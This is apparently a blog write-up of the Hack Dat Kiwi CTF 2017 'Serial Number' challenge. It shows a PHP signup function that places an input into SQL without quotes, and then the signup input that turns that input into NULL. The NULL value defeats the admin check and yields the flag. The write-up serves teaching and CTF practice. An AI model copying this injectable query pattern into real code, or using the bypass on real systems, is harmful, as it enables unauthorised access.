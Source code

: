 ```yaml
---
layout: post
title: Hack Dat Kiwi CTF 2017 - Serial Number
post_author: pyno
excerpt_separator: <!--more-->
---
```


The challenge here is to bypass a creative authentication mechanism.
You can download the server's source code at [link](#), and run
it in local as I did during the CTF.

\<tl;dr\>

To have the flag you just need to login with a serialnuber which
exists in a table named 'serialnumbers', initially populated with
2 entries.

To bypass authentication and print the flag just signup as:
```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```
And then login with the user pyno.

\</tl;dr\>

<!--more-->
Having a look at the code you will notice that all but one input that 
are put in queries are correctly sanitized with placeholders, so it 
was easy to identify the vulnerable point in signup() function, file
user.php:
```php
function signup($username,$password,$serialnumber)
{
	if (!ctype_alnum($serialnumber)) return false;
	if (!ctype_alnum($username)) return false;
	if (!$username or !$serialnumber) return;
	if (sql("select * from users where username=?",$username))
		return false;
	return sql("insert into users (username,password,serialnumber) 
			values ('$username','".md5($password)."',{$serialnumber})");
}
```
But at the beginning of this function serialnumber and username parameters 
are filtered with `ctype_alnum()` (i.e. only alphanumerical chars), and the
password is hashed before the query is executed... Woah challenging!

After a closer look to the query I realized that the variable 
`$serialnumber` is not included in quotes (interesting..)
and, since I'm not very familiar to PHP, it took me some google 
searches to work out what the notation `{$serialnumber}` stands 
for. 

This example should clarify this syntax for those like me who is not
so handy with PHP:
```php
php> $z = "magic";
php> $y = "z";
php> $str = "It's a kind of ${$y} :D";
php> echo $str;
It's a kind of magic :D
```

Ok now let's take a look to the isadmin() function which is the one
we have to bypass with our injection:
```php
function isadmin($user)
{
	return sql("select ? in (select serialnumber from serialnumbers) as result",
		$user->serialnumber)[0]->result!=="0";
}

```
To satisfy this condition we just need the query to return at least one row.
So we need either to:
1. have the same serialnumber of an admin, or
2. inject a serial number into the serialnumbers table (this is not done when
the user is added legitimately), or
3. have somehow magically a row returned by the query

**Option** 1. Clearly impossible. Infact, even if I had known an admin serial
number, the serialnumber field is set to UNIQUE in table users.

**Option** 2. Unexcaped var. With the PHP `${}` trick in mind I looked at 
unescaped variables that I could reference and, hey, the  `$password` vairable 
seems good!

So I tryied to put the injection in the password field doing a signup like:
```
Username: pypy
Password: 1234
Serialnumber: password
```
This way if I found in serialnumber the value 1234 means I'm able to inject
the payload in the password field. But unfortunately:

```sql
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
+----+------------+--------------+----------------------------------+
19 rows in set (0.00 sec)
```
It is evident that I can reference the variable `$password` only after the 
md5, so it is useless.

**Option 3**. Try them all. We said we need the query in isadmin() function
somehow to return at least a tuple. We have only 2 variables left.
Since refering to username which is excaped too doesn't seems too
promising, I tried to refer to the serialnumber variable itself.

```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```

What appened surprised me a little:

```
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
| 39 | pyno       |         NULL | ae7e3a33fda6ac06a69bec3d5cec16a1 |
+----+------------+--------------+----------------------------------+
```
Hey null, null is good, NULL IS COOL! Let's try a query like the one in
isadmin() when filled with a NULL serialnumber:

```SQL
MariaDB [ctf]> select NULL in (select serialnumber from serialnumbers) as result;
+--------+
| result |
+--------+
|   NULL |
+--------+
1 row in set (0.00 sec)

```
One row! Urray!

So doing login with the pyno user I finally got the flag: VBPspiFWv8NYqBt

** **NOTE** **

A simpler solution is reported by kiwi CTF authors in their 
[Auto-Write-Up](http://2017.hack.dat.kiwi/writeup). They use a direct
approach to exploit the null pointer vulnerability by simply inserting
NULL as serialnumber in the signup form.



